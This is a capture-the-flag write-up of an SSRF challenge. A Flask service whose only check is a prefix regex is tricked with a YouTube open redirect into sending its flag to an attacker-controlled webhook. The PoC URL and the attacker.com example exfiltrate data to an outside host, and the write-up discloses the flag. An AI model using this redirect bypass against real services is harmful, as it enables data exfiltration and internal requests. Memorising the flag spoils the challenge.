

## Desclaimer
i didnt expect this is was 0day vuln lol, but the probset (problem setter) say this:



## Challenge Overview
The challenge presented a simple Flask web service with a single GET endpoint. The source code was available, and the functionality seemed straightforward: it accepted a url query parameter, validated that it was a youtube.com URL, and then made a server-side HTTP request to that URL.

```py
@app.get("/")
def home():
    url = request.args.get("url", False)
    if not url:
        return "Url not found"
    if not re.match(r"^https://youtube.com/.*$", url):
        return "url isn't youtube url"
    response = requests.get(url+"?"+FLAG)
    return response.text

```
The server would then send the contents of the fetched URL back in the response.

## Vulnerability Analysis
At first glance, the security filter appears to block non-YouTube URLs. But there's a subtle weakness: the service only checks that the URL starts with https://youtube.com/, and does not validate what the redirected URL points to.

#### Key Issue: Open Redirect on YouTube
YouTube uses a redirection system on the /redirect path, where URLs like this:
```bash
https://youtube.com/redirect?q=https://attacker.com
```
will redirect to https://attacker.com, but still pass the **regex check**.

The Flask app fetches that URL, which means it is **vulnerable to SSRF (Server-Side Request Forgery)** through this open redirect. By abusing this, an attacker can trick the server into making HTTP requests to any domain, including internal services.

## Exploitation Strategy
The `requests.get(url + "?" + FLAG)` portion appends the flag as a query string to the final destination. If the attacker can control the destination domain (via redirection), they can capture this flag.

To exploit it:
1. Setup a HTTP request logging service like webhook
2. Craft a Youtube redirect URL that points to your webhook

## PoC
```
http://playground.tcp1p.team:16787/?url=https://youtube.com/redirect?q=https://bargas.requestcatcher.com
```


Flag: `RAMADAN{open_redirection_on_youtube_is_really_handy}`
